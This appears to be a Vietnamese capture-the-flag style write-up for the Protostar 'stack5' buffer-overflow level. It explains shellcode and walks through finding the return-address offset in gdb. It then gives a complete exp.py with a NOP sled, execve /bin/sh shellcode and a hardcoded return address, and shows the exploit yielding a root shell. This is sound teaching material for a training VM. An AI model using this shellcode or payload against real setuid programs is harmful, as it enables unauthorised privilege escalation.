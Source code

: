 # STACK FIVE

## About

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

  * At this point in time, it might be easier to use someone elses shellcode
  
  * If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
  
  * remove the int3s once your shellcode is done.

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Solutions

`STACK FIVE` là thử thách không có hàm win(), đọc giới thiệu ta có thể thấy thử thách muốn chúng ta tìm hiểu về Shellcode và học cách khai thác ret2shellcode.

Shellcode là gì ?

```
Shellcode còn được gọi là bytecode, tạm dịch là mã máy. Chúng ta đều biết mã máy là thứ ngôn ngữ duy nhất mà bộ vi xử lí có thể hiểu được. Tất cả các chương trình viết bằng bất kì ngôn ngữ nào đều phải được biên dịch sang mã máy trước khi máy tính có thể chạy được chương trình đó. Khác với các chương trình này, shellcode được thể hiện như một nhóm các mã máy, do đó máy tính có thể hiểu và thực thi trực tiếp shellcode mà không cần phải trải qua bất kì công đoạn biên dịch nào cả.
```

Với người mới tìm hiểu và chưa có kiến thức nhiều về mã máy, thử thách gợi ý sẽ tốt hơn khi tại thời điểm này sử dụng `shellcode` của ai đó.

Tôi lấy nguồn từ trên mạng: <https://www.exploit-db.com/exploits/43716>

```
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Tiếp theo là tìm độ dài chuỗi có thể ghi đè eip.

```
root@protostar:/opt/protostar/bin# python -c 'print "A" * 64 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4 + "G" * 4 + "H" * 4' > txt
root@protostar:/opt/protostar/bin# gdb -q ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) r < txt
Starting program: /opt/protostar/bin/stack5 < txt

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()       <-- EEEE Tiếp tục là 76
(gdb)
```
Vậy payload của chúng ta bây giờ sẽ trông như này:

`payload = "A" * 76 + return address + "\x90" * 100 + shellcode`

Các bạn nên đọc link tài liệu ở phần Documents để hiểu rõ hơn về `shellcode` và `"\x90" NOPs`.

Stack sẽ trông như sau khi bị ghi đè (Bố cục địa chỉ có thể khác trên máy bạn):

```
(gdb) x/100wx $esp
0xbffffc10:     0xbffffc20      0xb7ec6165      0xbffffc28      0xb7eada75
0xbffffc20:     0x41414141      0x41414141      0x41414141      0x41414141     <-- payload bắt đầu từ 0x41414141.
0xbffffc30:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc40:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc50:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc60:     0x41414141      0x41414141      0x41414141      0xxxxxxxxx     <-- Vị trí của Return address
0xbffffc70:     0x90909090      0x90909090      0x90909090      0x90909090         Ở đây được tính toán = 0xbffffc6c + 0x50 = 0xbffffcbc để trả về vào giữa dãy NOPs.
0xbffffc80:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffc90:     0x90909090      0x90909090      0x90909090      0x90909090     <-- sau ret sẽ là chuỗi '\x90' vì sẽ có sự biến động khi chạy và debug, 
0xbffffca0:     0x90909090      0x90909090      0x90909090      0x90909090         nên sẽ không thể tính chính xác vị trí của shellcode mà 
0xbffffcb0:     0x90909090      0x90909090      0x90909090      0x90909090         phải ước lượng và trượt vào nó qua NOPs để đến shell.
0xbffffcc0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcd0:     0x90909090      0x50c031cc      0x732f2f68      0x622f6868     <-- Shellcode start: 0xbffffcd4,
0xbffffce0:     0xe3896e69      0xc289c189      0x80cd0bb0      0xcd40c031         sau chuỗi NOPs sẽ là shellcode do hệ thống
0xbffffcf0:     0x08040080      0x00000001      0xbffffd14      0x080483f0         sẽ bỏ qua NOPs và tiếp tục thực thi.
0xbffffd00:     0x080483e0      0xb7ff1040      0xbffffd0c      0xb7fff8f8
0xbffffd10:     0x00000001      0xbffffe20      0x00000000      0xbffffe3a
0xbffffd20:     0xbffffe4a      0xbffffe5e      0xbffffe80      0xbffffe93
0xbffffd30:     0xbffffe9d      0xbffffea9      0xbffffeeb      0xbffffeff
0xbffffd40:     0xbfffff0e      0xbfffff25      0xbfffff36      0xbfffff3f
0xbffffd50:     0xbfffff8c      0xbfffff97      0xbfffff9f      0xbfffffac
0xbffffd60:     0x00000000      0x00000020      0xb7fe2414      0x00000021
0xbffffd70:     0xb7fe2000      0x00000010      0x0f8bfbff      0x00000006
0xbffffd80:     0x00001000      0x00000011      0x00000064      0x00000003
0xbffffd90:     0x08048034      0x00000004      0x00000020      0x00000005
```
Kết quả dừng trước int3 '\xcc' -> bỏ int3 thì shellcode được thực thi.

```
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffffcd5 in ?? ()
(gdb)
```
Từ bài này chúng ta sẽ bắt đầu viết file payload exp.py 

File exp.py

``` 
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = "A" * 76 + "\xbc\xfc\xff\xbf" + "\x90" * 100 + shellcode
print payload
```

Bước khai thác cuối cùng

```exp.py
root@protostar:/opt/protostar/bin$ $(python exp.py ; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami 
root
ls
final0	final2	 format1  format3  heap0  heap2  net0  net2  net4    stack1  stack3  stack5  stack7
final1	format0  format2  format4  heap1  heap3  net1  net3  stack0  stack2  stack4  stack6
```

## Documents

<https://vnhacker.blogspot.com/2006/12/shellcode-thn-chng-nhp-mn.html>

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>


